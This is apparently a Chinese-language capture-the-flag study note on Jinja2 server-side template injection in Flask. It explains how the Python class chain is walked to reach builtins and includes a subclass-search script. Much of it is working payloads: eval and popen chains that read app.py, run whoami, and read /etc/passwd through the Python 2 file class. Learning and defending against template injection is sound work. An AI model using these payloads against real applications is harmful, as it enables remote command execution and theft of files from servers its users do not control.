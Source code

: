 # SSTI--Jinja2

{{url_for.__globals__.__builtins__.eval('__import__("os").popen("cat app.py").read()')}}

{{config.__init__.__globals__. __builtins__.eval('__import__("os").popen("cat app.py").read()')}}

# 前言

SSTI（服务端模板注入），已然不再是一个新话题，近年来的CTF中还是也经常能遇到的，比如护网杯的easy_tonado、TWCTF的Shrine，19年的SCTF也出了Ruby ERB SSTI的考点；

本篇对这部分总结一下，方便未来做题和复习的时候查阅！

# 简介

首先简单说一下什么是SSTI(Server-Side Template Injection);即模板注入，与我们熟知的SQL注入、命令注入等原理大同小异。注入的原理可以这样描述：当用户的输入数据没有被合理的处理控制时，就有可能数据插入了程序段中变成了程序的一部分，从而改变了程序的执行逻辑；
漏洞成因在于：render_template函数在渲染模板的时候使用了%s来动态的替换字符串，我们知道Flask 中使用了Jinja2 作为模板渲染引擎，{{}}在Jinja2中作为变量包裹标识符，Jinja2在渲染的时候会把{{}}包裹的内容当做变量解析替换。比如{{1+1}}会被解析成2。

## 利用流程

> 获取基本类->获取基本类的子类->在子类中找到关于命令执行和文件读写的模块

当然我们通常是找到`buildtins`在下面的基础上去进行一些骚操作，还有`catch_warnings.__init__.__globals__`也比较常用

## 构造链的思路

### 构造链的发现

- 第一步

目的：使用`__class__`来获取内置类所对应的类

可以通过使用`str`，`list`，`tuple`，`dict`等来获取

```
>>> ''.__class__
<class 'str'>
>>> "".__class__
<class 'str'>
>>> [].__class__
<class 'list'>
>>> ().__class__
<class 'tuple'>
>>> {}.__class__
<class 'dict'>
```

- 第二步

目的：拿到`object`基类

用`__bases__[0]`拿到基类或者`__base__`

```
Python 3.9.1
>>> {}.__class__.__bases__[0]
<class 'object'>
>>> {}.__class__.__base__
<class 'object'>
```

用`__mro__[1]`或者`__mro__[-1]`拿到基类

```
Python 3.9.1
>>> ''.__class__.__mro__[1]
<class 'object'>
>>> ''.__class__.__mro__[-1]
<class 'object'>
```

- 第三步

用`__subclasses__()`拿到子类列表

```
Python 3.9.1
>>> ''.__class__.__bases__[0].__subclasses__()
[<class 'type'>, <class 'weakref'>,...]
```

- 第四步

在子类列表中找到可以加以利用的类

### 利用脚本帮助我们快速找到需要的模块

下面以python3为例，当然python2类似

```python
search = "popen"
num = -1
for i in ().__class__.__base__.__subclasses__():
	num += 1
	try:
		if search in i.__init__.__globals__.keys():
			print(i, num)
	except:
		pass
```

# Python当中的利用

## Python2当中的利用

tips：python2的`string`类型不直接从属于属于基类，所以要用两次 `__bases__[0]`

```
''.__class__.__bases__[0] <type 'basestring'>
''.__class__.__bases__[0].__bases__[0] <type 'object'>
```

- `file`类读写文件

本方法只能适用于python2，因为在python3中`file`类已经被移除了

```
''.__class__.__bases__[0].__bases__[0].__subclasses__()[40] <type 'file'>

```

可以使用dir查看file对象中的内置方法

```
dir(''.__class__.__bases__[0].__bases__[0].__subclasses__()[40])

['__class__', '__delattr__', '__doc__', '__enter__', '__exit__', '__format__', '__getattribute__', '__hash__', '__init__', '__iter__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'close', 'closed', 'encoding', 'errors', 'fileno', 'flush', 'isatty', 'mode', 'name', 'newlines', 'next', 'read', 'readinto', 'readline', 'readlines', 'seek', 'softspace', 'tell', 'truncate', 'write', 'writelines', 'xreadlines']
```

然后直接调用里面的方法即可，payload如下

读文件

```
''.__class__.__bases__[0].__bases__[0].__subclasses__()[40]('/etc/passwd').read()
''.__class__.__bases__[0].__bases__[0].__subclasses__()[40]('/etc/passwd').readlines()
```

- warnings`类中的`linecache

  本方法只能用于python2，因为在python3中会报错`'function object' has no attribute 'func_globals'`，不知道为啥

## python3当中的利用

- `os._wrap_close`类中的`popen`

```
<class 'os._wrap_close'> 139
<class 'os._AddedDllDirectory'> 140

>>> "".__class__.__bases__[0].__subclasses__()[139].__init__.__globals__['popen']('whoami').read()
'desktop-v7cteor\\y4tacker\n'
().__class__.__base__.__subclasses__()[140].__init__.__globals__['popen']('whoami').read()
```

- `__import__`

  ```
  <class '_frozen_importlib._ModuleLock'> 80
  <class '_frozen_importlib._DummyModuleLock'> 81
  <class '_frozen_importlib._ModuleLockManager'> 82
  <class '_frozen_importlib.ModuleSpec'> 83
  {{"".__class__.__bases__[0].__subclasses__()[80].__init__.__globals__.__import__('os').popen('whoami').read()}}
  
  ```

# 常用魔法函数

```
__class__ 返回调用的参数类型
__bases__ 返回类型列表
__base__ 
__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组
__subclasses__() 返回object的子类
__globals__ 函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
__dict__ 查看对象内部所有属性名和属性值组成的字典
```



# 参考资料

作为 web层面的攻击,我们要关注语言层面的特性和绕过，在Flask/Jinja2 模板的语法,filters和内建函数,变量,都可能称为绕过的trick

[Jinja官方文档](https://jinja.palletsprojects.com/en/2.11.x/templates/#list-of-builtin-filters)

[Flask官方文档](https://dormousehole.readthedocs.io/en/latest/)

[细说Jinja2之SSTI&bypass](https://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652868785&idx=1&sn=aea3849c8ee1cdc50ad0742744159800&chksm=bd59ec7c8a2e656a4f9f5b0753c6bef4efeae17ca9a5ab3d550fdac9b302adf3696c1c432eb1&mpshare=1&scene=23&srcid=1219HTr8L8YaCVw9dnE3xDUj&sharer_sharetime=1608375002321&sharer_shareid=39123bd44a937bb35fd979cc8098127f#rd)



## 注意

## 命令执行构造

在{{}}我们可以执行表达式,但是命名空间是受限的,没有builtins,所以eval,open这些操作是不能使用的,但根据前面的知识,我们可以通过任意一个函数的func_globals而得到他们的命名空间,而得到builtins

